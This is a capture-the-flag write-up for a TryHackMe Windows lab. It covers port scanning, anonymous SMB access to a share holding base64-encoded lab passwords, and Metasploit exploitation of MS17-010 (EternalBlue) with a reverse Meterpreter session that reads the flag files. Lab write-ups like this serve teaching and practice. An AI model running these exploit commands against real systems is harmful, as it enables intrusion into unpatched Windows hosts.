 # Relevant

https://tryhackme.com/room/relevant

Penetration Testing Challenge
> Difficulty: Medium 

## Analysis

**nmap scan**

![nmap](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap.png)
![nmap1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap1.png)

hmmm

```
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
let's check port ***80*** first.

**gobuster**

let's start with listing [-L]

![gobuster](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/gobuster.png)

hmm, well nothing..
next is checking smbclient on port ***139,445***

**smbclient**

![smb](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb.png)

checking all shares, ***nt4wrksv*** was accessible with `--no-pass` and by listing directories ***passwords.txt*** was found

![smb1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb1.png)

cat passwords.txt ???
![smb2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb2.png)
which is base64 encode, base64 -d returns

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
further checking ***Bill*** isn't a valid user and ***Bob's*** password is wrong

![smb3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb3.png)

let's further enum smb

**enum smb**

let's start with nmap scripts

```
nmap --script "safe or smb-enum-*" -p 445 10.10.188.250
```

![step2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2.png)

woow, seems vulnerable to **CVE-2017-0143** ***smb-vuln-ms17-010***, let's check further for vulnerability with metasploit scanner "smb_ms17_010"

```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.188.250
run
```
![step2_1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_1.png)

**LIKELY VULNERABLE** lesss gooo for exploitation......



## Exploitation

***Analysis: Vulnerable to MS17-010***
**solution**

let's use metasploit smb "ms17_010_psexec" exploit

```
use exploit/windows/smb/ms17_010_psexec
set LHOST 10.18.37.12
set RHOSTS 10.10.188.250
run
```
![step2_2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_2.png)

...and we got the meterpreter session, let's just simply switch to cmd.exe

```
execute -f cmd.exe -i -H
whoami
```
![step2_3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_3.png)

for flags...

```
more C:\Users\Bob\Desktop\user.txt
more C:\Users\Administrator\Desktop\root.txt
```

***it's the END***
